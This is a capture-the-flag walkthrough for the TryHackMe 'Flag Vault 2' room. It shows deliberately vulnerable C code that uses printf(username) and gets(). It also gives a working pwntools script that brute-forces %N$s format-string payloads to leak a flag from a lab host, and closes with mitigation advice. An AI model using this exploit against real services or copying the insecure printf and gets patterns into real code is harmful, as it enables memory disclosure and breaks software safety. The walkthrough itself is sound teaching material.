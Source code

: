 ```yaml
---
title: "Flag Vault 2 CTF TryHackMe Walkthrough"
slug: flag-vault-2
layout: post
excerpt_separator: <!--more-->
categories:
  - ctfs
---
```


![](https://raw.githubusercontent.com/j4ke-exe/j4ke.io/refs/heads/main/assets/media/flag-vault-2-banner.jpg){: .center-image }

In this TryHackMe CTF challenge, [Flag Vault 2](https://tryhackme.com/room/hfb1flagvault2), our objective is to analyze and exploit a binary vulnerable to an f-string format attack. This vulnerability enables attackers to read arbitrary memory addresses or leak data on the stack by abusing the printf function without a format string.

<br>

## Step 1: Analyze Source Code

```c
#include <stdio.h>
#include <string.h>

void print_banner(){
    printf( "  ______ _          __      __         _ _   \n"
        " |  ____| |         \\ \\    / /        | | |  \n"
        " | |__  | | __ _  __ \\ \\  / /_ _ _   _| | |_ \n"
        " |  __| | |/ _` |/ _` \\ \\/ / _` | | | | | __|\n"
        " | |    | | (_| | (_| |\\  / (_| | |_| | | |_ \n"
        " |_|    |_|\\__,_|\\__, | \\ / \\__,_|\\__,_|_|\\__|\n"
        "                  __/ |                      \n"
        "                 |___/                       \n"
        "                                             \n"
        "Version 2.1 - Fixed print_flag to not print the flag. Nothing you can do about it!\n"
        "==================================================================\n\n"
          );
}

void print_flag(char *username){
    FILE *f = fopen("flag.txt","r");
    char flag[200];

    fgets(flag, 199, f);
    //printf("%s", flag);

    printf("Hello, ");
    printf(username);
    printf(". Was version 2.0 too simple for you? Well I don't see no flags being shown now xD xD xD...\n\n");
    printf("Yours truly,\nByteReaper\n\n");
}

void login(){
    char username[100] = "";

    printf("Username: ");
    gets(username);

    // The flag isn't printed anymore. No need for authentication
    print_flag(username);
}

void main(){
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stderr, NULL, _IONBF, 0);

    // Start login process
    print_banner();
    login();

    return;
}
```

### Observations:
- The vulnerable function is `print_flag()`, which accepts an unsanitized user input `username` and passes it directly into `printf()`.
- `gets()` is also bad, considering it allows an attacker to input without bounds checking, which can result in a **buffer overflow**.
- The flag is stored in memory in a buffer called `flag`, but the actual call to `printf("%s", flag)` has been commented out. The idea is that the flag is in memory but inaccessible... or is it?

<br>

## Step 2: Understand the Vulnerability

### What's happening?

The `username` buffer is read using `gets()`--which has no bounds checking (insecure)--and is passed directly to `printf()`:

```c
printf(username);
```

This introduces a **format string vulnerability**, where if user input contains format specifiers (like `%x`, `%s`, `%n`, etc.), they are interpreted by `printf()`, resulting in unwanted behavior.

<br>

### Why is it vulnerable?

Passing user-controlled input directly into `printf()` without a format string leads to undefined behavior, allowing attackers to:

- Leak stack contents via `%x`/`%s`
- Write arbitrary memory using `%n`
- Control execution flow

In this case, the goal is to grab the flag string stored in memory. Since it’s read with `fgets()` and stored in `char flag[200]`, we can try to leak stack positions where `flag` is located.

<br>

## Step 3: Exploit

Below is a simple Python script I wrote to brute-force stack positions with payloads like `%1$s`, resulting in leaking a stack position that contains the flag.

```python
import os
from pwn import *

TARGET_IP = '10.10.180.45'
TARGET_PORT = 1337

for i in range(1, 50):
    payload = f'%{i}$s'.encode()
    print(f'[+] Trying %{i}$s')
    r = remote(TARGET_IP, TARGET_PORT, timeout=5)
    r.recvuntil(b'Username:')
    r.sendline(payload)
    output = r.recvall(timeout=2).decode(errors='ignore')
    r.close()

    if 'THM{' in output:
        print(f'\nFound flag: {output}')
        break
    elif os.name == 'nt':
        os.system('cls')
    else:
        os.system('clear')
```

### Output:
```
[+] Trying %5$s
[+] Opening connection to 10.10.214.114 on port 1337: Done
[+] Receiving all data: Done (145B)
[*] Closed connection to 10.10.214.114 port 1337

Found flag:  Hello, THM{REDACTED}
. Was version 2.0 too simple for you? Well I don't see no flags being shown now xD xD xD...

Yours truly,
ByteReaper
```

<br>

### How does this work?

- `printf(username)` interprets `%5$s` as "read the 5th item on the stack as a pointer to a string".
- This is where the `flag` buffer resides in memory after being populated by `fgets()`.

<br>

---

<br>

## Hotwash

### Format String Vulnerabilities

When user input is passed to `printf()` or similar functions **without a format string**, you expose yourself to:

- **Memory leaks** via `%s`, `%x`
- **Memory writes** via `%n`
- **Execution redirection** (advanced)

### Vulnerable Patterns

```c
printf(username);         // vulnerable
printf("%s", username);   // secure
```

Learn more: [OWASP Format String Vulnerabilities](https://owasp.org/www-community/attacks/Format_string_attack)

{% include note.html content="Regardless of whether you're printing a simple or complex string, always use an explicit format string to mitigate this attack vector." %}

<br>

## Room Created By
- [munra](https://tryhackme.com/p/munra)
- [hadrian3689](https://tryhackme.com/p/hadrian3689)
